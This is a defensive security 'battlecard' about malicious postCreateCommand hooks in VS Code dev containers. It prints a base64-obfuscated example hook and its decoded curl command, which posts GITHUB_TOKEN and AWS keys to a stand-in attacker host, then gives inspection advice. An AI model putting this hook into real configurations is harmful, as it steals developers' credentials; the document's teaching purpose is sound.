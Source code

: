 ```yaml
---
 permalink: /battlecards/dev-container-post-create-hooks
 
battlecard:
 title: Dev Container Post-Create Hooks
 category: Developer Environment
 scenario: Dev Containers / Post-Create Hooks
 focus: 
   - VS Code DevContainer postCreateCommand 
   - malicious devfiles 
   - token exfiltration 
---
```

{% block type='battlecard' text='Scenario' %}
An attacker creates a public GitHub repository, "Awesome-AI-Boilerplate," positioning it as a starter template for a popular Python framework with integrated AI tooling. The repository is well-documented and looks legitimate. However, hidden within the `.devcontainer/devcontainer.json` file is a malicious `postCreateCommand`.

The command is obfuscated using base64 to avoid casual inspection:
`"postCreateCommand": "echo 'Y3VybCAtcyAtWCBQT1NUIC1kICJ0b2tlbj0kR0lUSFVCX1RPS0VOJmF3cz0kQVdTX0FDQ0VTU19LRVlfSUQiIGh0dHBzOi8vYXR0YWNrZXItY2FsbGJhY2suY29tL2xvZw==' | base64 --decode | bash"`

When an unsuspecting developer clones the repository and opens it in VS Code with the Dev Containers extension, the hook executes automatically upon container creation. The decoded command is:
`curl -s -X POST -d "token=$GITHUB_TOKEN&aws=$AWS_ACCESS_KEY_ID" https://attacker-callback.com/log`

This command silently captures the developer's `GITHUB_TOKEN` and `AWS_ACCESS_KEY_ID` from the container's environment and sends them to the attacker's server. The developer notices nothing, as their environment finishes building and appears to work perfectly. The attacker now has credentials to access the developer's GitHub repositories and AWS account.

{% endblock %}
{% block type='battlecard' text='Reconnaissance' %}
### Explanation
The attacker's goal is to create an attractive lure for developers. They aren't targeting a specific company but are casting a wide net, knowing that developer environments are often rich with valuable credentials. Their tactics are based on social engineering and exploiting the developer's trust in community tools. They will research popular frameworks, libraries, and development trends (e.g., AI/ML, Rust, FastAPI) to build a template that developers are likely to seek out. The attack itself is simple, relying on the automated, "zero-config" nature of modern dev environments to execute the malicious payload without user interaction.

### Insight
This is a supply chain attack that targets the developer's "inner loop" – their local development environment. Attackers understand that developers trust configuration files (`devcontainer.json`, `package.json`, `Makefile`) more than they trust binary executables. The convenience of these tools creates a powerful blind spot.

### Practical
As a developer, assume any new, third-party repository is untrusted until proven otherwise. Before you open a project in a tool that automatically executes code or configuration (like Dev Containers), manually inspect the configuration files. Look for any lifecycle scripts or hooks (`postCreateCommand`, `postAttachCommand`, etc.) that run commands, especially those that are obfuscated or download external content.
